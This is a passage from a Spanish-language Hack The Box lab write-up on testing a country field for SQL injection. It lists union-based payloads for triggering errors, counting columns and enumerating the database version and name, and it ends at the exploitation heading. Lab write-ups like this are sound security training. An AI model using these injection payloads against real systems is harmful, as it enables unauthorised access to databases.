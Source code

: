 >**PRUEBAS DE SQL INJECTION**

<p align="justify">
Dado todo lo mencionado anteriormente, procederemos a iniciar las pruebas de ataques de Inyección SQL (SQLi). Verificaremos si es posible vulnerar la consulta SQL mediante la inserción de comillas simples o comillas dobles.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/1c989816-0340-4621-aaf0-e87d9394ec30">
</p>

<p align="justify">
Realizamos una prueba al añadir una comilla simple al campo de país y enviar la solicitud, pero no se observa ninguna indicación de un error SQL en la respuesta inicial. Sin embargo, al regresar al navegador y actualizar la página, se muestra un mensaje de error en el código. Para obtener más detalles, procedamos a examinar el código fuente de la página.
</p>

<div align="center">
  <table>
    <tr>
      <th>Sintaxis</th>
      <th>Descripción</th>
    </tr>
    <tr>
      <td>campo'</td>
      <td>Ocasionar un ERROR</td>
    </tr>
    <tr>
      <td>campo' order by 100-- -</td>
      <td>Validar las columnas que emplea la base de datos</td>
    </tr>
    <tr>
      <td>campo' union select 1-- -</td>
      <td>Número de base de datos</td>
    </tr>
    <td>campo' union select version()-- -</td>
      <td>Enumerar la versión de la base de datos</td>
    </tr>
    <td>campo' union select database()-- -</td>
      <td>Enumerar el nombre de la base de datos actual</td>
    </tr>
  </table>
</div>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/5fe391db-78dc-4a24-af87-091ae0c63182">
</p>

> -------------------------

## Etapa de Explotación
